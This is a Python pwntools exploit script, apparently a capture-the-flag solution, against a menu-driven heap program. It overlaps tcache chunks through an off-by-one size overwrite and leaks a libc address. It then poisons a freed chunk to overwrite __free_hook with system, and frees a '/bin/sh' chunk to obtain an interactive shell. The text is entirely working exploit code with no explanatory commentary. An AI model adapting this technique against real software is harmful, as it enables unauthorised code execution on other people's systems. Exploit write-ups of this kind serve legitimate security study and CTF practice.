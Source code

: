 ```py
	
def view() -> bytes:
	p.sendlineafter(b'Choose an option:', b'4')
	return p.recvuntil(b'1. Add story').strip(b'1. Add story')

# --- alloc ----

for i in range(0, 12):
	add(0x88, b'nothing here')

for i in range(7, 12):
	delete(i) 

delete(5)
delete(4)
delete(6)

add(0x88, b'nothing here')	# 5 size 0x90
add(0x88, b'nothing here')	# 4 size 0x90

update(4, b'a' * 0x80 + b'\x00' * 8 + b'\xa1')
delete(5)			# delete 5, and renew 5 from 0x90 to 0xa0
add(0x90, b'nothing here')	# 5 size 0xa0
update(5, b'Addr1:'.rjust(0x90, b'a') + b'\xe0')

data = view()
data1 = data.split(b'Addr1:')[1].split(b'\n')[0]

leak_addr = u64(data1.ljust(8, b'\x00'))
libc_base = leak_addr - 0x1ecbe0
libc.address = libc_base

print(hex(libc.symbols['__malloc_hook']))
print(hex(libc_base))

add(0x88, b'nothing here')	# 6
add(0x88, b'nothing here')	# 7
add(0x88, b'nothing here')	# 8

# 8 low
# 7
# 6 high

update(8, b'a' * 0x80 + b'\x00' * 8 + b'\xa1')
delete(6)	
delete(7)	# delete 7, and renew 7 from 0x90 to 0xa0
add(0x98, b'a' * 0x90 + p64(libc.symbols['__free_hook'])[:-1])


add(0x88, b'/bin/sh\x00')		# 7
add(0x88, p64(libc.symbols['system']))
delete(7)

p.interactive()
```
